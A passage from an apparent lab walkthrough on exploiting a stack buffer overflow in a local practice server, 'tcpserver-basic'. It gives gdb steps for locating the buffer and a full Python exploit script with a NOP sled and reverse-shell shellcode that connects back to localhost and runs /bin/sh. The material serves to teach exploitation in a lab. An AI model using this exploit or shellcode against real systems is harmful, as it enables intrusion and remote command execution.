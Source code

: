 

3. Locate the Buffer Address
Identify the stack address where the input buffer resides.
Commands:
gdb ./tcpserver-basic
(gdb) run 40000
# In another terminal:
python3 -c 'print("B"*500)' | nc localhost 40000
# In GDB, after crash:
(gdb) x/200x $rsp - 400

Details:

Sent 500 'B' characters (0x42) to fill the buffer.
GDB showed 0x42424242 starting at 0x7fffffffde00.
Chose return address: 0x7fffffffde14 (buffer start + 20 to land in NOP sled).
Error Encountered: No 'B's found initially.
Cause: Incorrect stack inspection range.
Resolution: Expanded inspection with x/400x $rsp - 800.



4. Craft and Send the Exploit Payload
Create a payload: [NOP sled] + [shellcode] + [padding] + [return address].
Command:
nano exploit.py

Exploit Script:
# File: exploit.py
import socket
import struct

# Shellcode from Kali
shellcode = b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97" + \
b"\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6" + \
b"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce" + \
b"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f" + \
b"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x89\xfe" + \
b"\x48\x89\xd6\x0f\x05"

nop_sled = b"\x90" * 50
padding = b"A" * (120 - len(nop_sled) - len(shellcode))
ret_addr = struct.pack("<Q", 0x7fffffffde14)

payload = nop_sled + shellcode + padding + ret_addr

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect(("localhost", 40000))
    print("[*] Sending exploit payload...")
    s.sendall(payload + b"\n")
    print("[*] Exploit sent successfully!")
    s.recv(1024)
except Exception as e:
    print(f"[!] Error: {e}")
s.close()
